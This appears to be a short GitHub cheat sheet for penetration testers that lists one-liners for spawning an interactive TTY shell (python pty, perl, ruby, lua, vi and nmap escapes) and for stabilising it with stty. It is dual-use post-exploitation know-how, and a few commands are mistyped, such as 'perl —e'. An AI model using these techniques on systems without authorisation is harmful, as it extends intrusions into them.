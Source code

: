 # SPAWING A TTY SHELL 
Often during pen tests you may obtain a shell without having tty, yet wish to interact further with the system. Here are some commands which will allow you to spawn a tty shell. Obviously some of this will depend on the system environment and installed packages.

* python -c 'import pty; pty.spawn("/bin/sh")'

* echo os.system('/bin/bash')

* /bin/sh -i

* perl —e 'exec "/bin/sh";'

* perl: exec "/bin/sh";

* ruby: exec "/bin/sh"

* lua: os.execute('/bin/sh')

 # (From within IRB)

* exec "/bin/sh"

# (From within vi)

* :!bash

# (From within vi)

* :set shell=/bin/bash:shell

# (From within nmap)

* !sh

# Making shell better or stable 
**eg**
* python3 -c 'import pty; pty.spawn("/bin/bash")';export TERM=xterm
* press ctrl + z on keyboard {background the current job on linux}
* stty raw -echo;fg 
* This is not compulsory to use python3 , this will differ from your target system , may your system have python2 version or may not have python , you can also find for another suid binaries like perl, bash && you can use any binaries just this was a small example that how you can stabalize your tty shell for working in a better environment .. 

